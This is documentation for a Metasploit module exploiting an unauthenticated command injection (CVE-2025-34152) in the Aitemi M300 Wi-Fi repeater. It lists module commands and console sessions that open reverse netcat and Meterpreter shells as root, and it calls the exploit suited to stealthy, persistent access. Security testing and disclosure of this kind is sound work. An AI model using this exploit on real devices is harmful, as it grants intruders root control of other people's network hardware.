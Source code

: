 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated OS command injection** vulnerability
in the **Shenzhen Aitemi M300 Wi-Fi Repeater (hardware model MT02)**.

The vulnerability exists in the `time` parameter of the `time_conf` function, accessible via the `/protocol.csp` endpoint.
When passed to the backend, the parameter is inserted directly into a `date -s` shell
command without sanitization, allowing arbitrary command execution as **root**.
The exploit does **not require authentication**, **does not reboot the device**,
and **does not affect network configuration**, making it suitable for stealthy, persistent access.

The vulnerability is tracked as **CVE-2025-34152**.

### Setup

Purchase the vulnerable device here:
[https://www.aliexpress.us/item/3256806767641280.html](https://www.aliexpress.us/item/3256806767641280.html)

Ensure the repeater is accessible via its management interface (typically `http://192.168.11.1` when connected locally via Wi-Fi).

## Verification Steps

1. Connect to the repeater's Wi-Fi and obtain its IP (usually `192.168.11.1`).
2. Launch **Metasploit Framework**.
3. Use the module:
```
use exploit/linux/http/aitemi_m300_time_rce
```
4. Set the target IP:
```
set RHOSTS [TARGET_IP]
```
5. Choose the appropriate target:
```
set TARGET 0        # For simple reverse shell (netcat)
set TARGET 1        # For Meterpreter payload (may crash HTTP server)
```
6. Execute the exploit:
```
run
```

## Options

None

## Scenarios

### Scenario 1 – Target 0: Unix Reverse Shell (netcat)

```bash
msf6 exploit(linux/http/aitemi_m300_time_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix Command Shell (reverse_netcat)
    1   Linux Meterpreter MIPSBE (MAY crash HTTP worker)


msf6 exploit(linux/http/aitemi_m300_time_rce) > set payload cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat
msf6 exploit(linux/http/aitemi_m300_time_rce) > run http://192.168.11.1
[*] Started reverse TCP handler on 192.168.11.208:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Favicon hash matched – likely Aitemi M300 device
[+] HTTP server version matched: lighttpd/1.4.32
[+] HTML fingerprint matched in home.html – UI strings detected
[+] The target is vulnerable. HTML language markers confirmed
[*] Command shell session 4 opened (192.168.11.208:1337 -> 192.168.11.1:58090) at 2025-08-07 01:02:06 +0200

id
uid=0(root) gid=0(root)
uname -a
Linux Srepeater 4.4.194 #0 Fri Jun 30 03:16:53 2023 mips GNU/Linux
ls -l
drwxr-xr-x    2 root     root           775 Sep 25 23:32 bin
drwxr-xr-x    3 root     root           860 Sep 25 23:32 dev
drwxrwxr-x    1 root     root             0 Sep 25 23:33 etc
drwxr-xr-x   11 root     root           441 Sep 25 23:32 lib
drwxr-xr-x    2 root     root             0 Sep 25 23:32 media
drwxr-xr-x    2 root     root             3 Sep 25 23:32 mnt
drwxr-xr-x    5 root     root             0 Sep 25 23:32 overlay
dr-xr-xr-x   58 root     root             0 Jan  1  1970 proc
drwxr-xr-x   17 root     root           235 Sep 25 23:32 rom
drwxr-xr-x    2 root     root             3 Sep 25 23:32 root
drwxrwxr-x    2 root     root           707 Sep 25 23:32 sbin
dr-xr-xr-x   11 root     root             0 Jan  1  1970 sys
drwxrwxrwt   16 root     root           500 Sep 25 23:33 tmp
drwxr-xr-x    7 root     root            89 Sep 25 23:32 usr
lrwxrwxrwx    1 root     root             4 Sep 25 23:32 var -> /tmp
drwxr-xr-x    1 root     root             0 Sep 25 23:32 webs
drwxr-xr-x    4 root     root            67 Sep 25 23:32 www
```

### Scenario 2 – Target 1: Meterpreter MIPSBE Payload

```bash
msf6 exploit(linux/http/aitemi_m300_time_rce) > set target 1
target => 1
msf6 exploit(linux/http/aitemi_m300_time_rce) > set payload cmd/linux/http/mipsbe/meterpreter/reverse_tcp
payload => cmd/linux/http/mipsbe/meterpreter/reverse_tcp
msf6 exploit(linux/http/aitemi_m300_time_rce) > run http://192.168.11.1
[*] Started reverse TCP handler on 192.168.11.208:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Favicon hash matched – likely Aitemi M300 device
[+] HTTP server version matched: lighttpd/1.4.32
[+] HTML fingerprint matched in home.html – UI strings detected
[+] The target is vulnerable. HTML language markers confirmed
[*] Sending stage (1358312 bytes) to 192.168.11.1
[*] Meterpreter session 10 opened (192.168.11.208:1337 -> 192.168.11.1:41150) at 2025-08-07 01:12:10 +0200

meterpreter > sysinfo 
Computer     : Srepeater.lan
OS           :  (Linux 4.4.194)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: root
meterpreter > 
```

